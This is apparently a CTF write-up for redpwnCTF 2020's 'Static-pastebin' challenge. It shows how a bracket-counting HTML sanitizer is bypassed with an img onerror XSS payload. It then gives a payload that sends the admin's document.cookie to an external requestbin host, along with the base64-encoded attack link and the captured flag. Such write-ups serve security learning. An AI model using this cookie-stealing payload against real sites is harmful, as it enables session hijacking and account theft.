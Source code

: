 ## Static-pastebin :

The description of this challenge was : " I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it here "

The home page of the web site was presented like this:

![CaptureVero](https://user-images.githubusercontent.com/59454895/85900597-63acc800-b800-11ea-81fa-4d3b209847fa.PNG)

There was also a report site to the admin:

![OOOOOO](https://user-images.githubusercontent.com/59454895/85901979-344b8a80-b803-11ea-9027-8e13f90dacdc.PNG)


First of all i tried to put <script>alert(1);</script> to see if the site would print the number one but it didn't work and i got this :

![Capture000](https://user-images.githubusercontent.com/59454895/85898838-49251f80-b7fd-11ea-85b8-91c018a2c048.PNG)

 Here i could notice that every post was base64 encoded when i pressed the button create , i got also this confirmation from the code of the site that was dealing the posts , because as we can see there is the btoa function that encodes the text value in base64 :
 
 ```javascript
 (async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const button = document.getElementById('button');
    button.addEventListener('click', () => {
        const text = document.getElementById('text');
        window.location = 'paste/#' + btoa(text.value);
    });
})();
```

After i made the post in the site i looked inside the source again to see how the reading part was handled  and i found some interesting code :
```javascript
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.getElementById('paste').innerHTML = clean(input);
}

function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}

```
Reading this code i understood two important things , first of all the value from URL is decoded from base64 using the atob function ( It will be useful when i will report the link with the payload) and our input is sanitized with the clean function , looking inside this function i could see that the writing of text was not allowed if the bracket pairs didn't match . I broke this function just adding a > to my payload :
```javascript
test"><img src=x onerror=alert("22");>
```
![Test](https://user-images.githubusercontent.com/59454895/85903016-a45b1000-b805-11ea-8b64-ee6ca162333f.PNG)

Now that I know it works locally I modified my payload in this way :  ```javascript test"><img src=x onerror=window.location.href='https://en96oi0edd3dm.x.pipedream.net/?a='+document.cookie;>``` . I used a requestbin to intercept the admin's cookies.


Now the admin needs to visit the link or we can't intercept his cookie, so I encoded all my payload in base 64 and i inserted it in the link with this way :

https://static-pastebin.2020.redpwnc.tf/paste/#dGVzdCI+PGltZyBzcmM9eCBvbmVycm9yPXdpbmRvdy5sb2NhdGlvbi5ocmVmPSdodHRwczovL2VuOTZvaTBlZGQzZG0ueC5waXBlZHJlYW0ubmV0Lz9hPScrZG9jdW1lbnQuY29va2llOz4=

The final step was to report this entire link to the admin and see the requestbin to see if there was the flag :

![FlagStaticBin](https://user-images.githubusercontent.com/59454895/85904268-87740c00-b808-11ea-8c5e-bf24dc24d7a4.PNG)

Flag: flag{54n1t1z4t10n_k1nd4_h4rd}

